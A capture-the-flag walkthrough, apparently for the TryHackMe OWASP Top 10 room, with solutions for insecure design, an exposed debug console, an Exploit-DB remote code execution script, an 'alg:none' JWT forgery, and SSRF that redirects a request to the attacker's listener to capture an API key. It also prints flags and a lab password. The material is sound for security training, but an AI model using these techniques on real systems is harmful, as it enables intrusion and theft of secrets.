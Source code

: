 # [Task 11] 4. Insecure Design
## Reset Password
Choose the question of `What's your favourite colour?` <br>
```
green
```
## New Password
![](./screenshots/01.png) <br>
```
VXdN29LygflFsJ
```
## Log In with New Password
![](./screenshots/02.png) <br>

## Flag
Move `flag.txt` to the `private` folder, and open the file to get the flag. <br>
![](./screenshots/03.png) <br>

# [Task 12] 5. Security Misconfiguration
Firstly, Navigate to `<YOUR_MACHINE_IP>:86/console`. <br>
Then, execute the code: <br>
```python3
import os; print(os.popen("ls -l").read())
```
![](./screenshots/04.png) <br>

To read `app.py`, execute this code: <br>
```python3
import os; print(os.popen("cat app.py").read())
```
![](./screenshots/05.png) <br>

# [Task 15] Vulnerable and Outdated Components - Lab

Go to [Online Book Store 1.0 - Unauthenticated Remote Code Execution ](https://www.exploit-db.com/exploits/47887?source=post_page-----73d5248fc8e4--------------------------------), and download `47887.py`. <br>

![](./screenshots/06.png) <br>

Execute `47887.py`. <br>
![](./screenshots/07.png) <br>

## Get the Flag
![](./screenshots/08.png) <br>

```
THM{But_1ts_n0t_my_f4ult!}
```

# [Task 20] Data Integrity Failures
## JWT Cookie Value
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIzODQwOTI0fQ
```

### Header
```
# Input Base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9

# Output String
{"typ":"JWT","alg":"HS256"}
```

### Payload
```
# Input Base64
eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIzODQwOTI0fQ

# Output String
{"username":"guest","exp":1723840924}
```

## Admin Header
```
# Input String
{"typ":"JWT","alg":"none"}

# Output Base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

## Admin Payload

```
# Input String
{"username":"admin","exp":1723840924}

# Output Base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIzODQwOTI0fQ==
```

## Whole JWT
Don't forget the dot (`.`) following by the payload. I failed to get the flag because of the missing dot. <br>
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIzODQwOTI0fQ==.
```

# [Task 22] 10. Server-Side Request Forgery (SSRF)


## Q1. Explore the website. What is the only host allowed to access the admin area?
![](./screenshots/14.png) <br>

```
localhost
```
##  Q2. Check the "Download Resume" button. Where does the server parameter point to?
![](./screenshots/13.png) <br>
```
secure-file-storage.com
```
## Q3. Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?
![](./screenshots/17.png) <br>
![](./screenshots/16.png) <br>

```
# What I found fomr the button
http://10.10.10.48:8087/download?server=secure-file-storage.com:8087&id=75482342

# Edited URL
http://192.168.3.130:8087/download?server=http://<YOUR_THM_IP>:8000&id=75482342

```
Remember to listen to `8000` <br>
![](./screenshots/15.png) <br>
```bash
nc -nvlp 8000
```
### Answer
```
THM{Hello_Im_just_an_API_key}
```

## Q4. Going the Extra Mile: There's a way to use SSRF to gain access to the site's admin area. Can you find it? 

**Note:** You won't need this flag to progress in the room. You are expected to do some research in order to achieve your goal. <br>

```
http://<YOUR_THM_IP>:8087/download?server=http://localhost:8087/admin%23&id=75482342
```
![](./screenshots/18.png) <br>
![](./screenshots/19.png) <br>

---

# Reference
- [TryHackMe OWASP Top 10–2021 Walkthrough](https://medium.com/@corybantic/tryhackme-owasp-top-10-2021-writeup-159ccfadb4d7) by CoryBantic NSP Security, 2023.


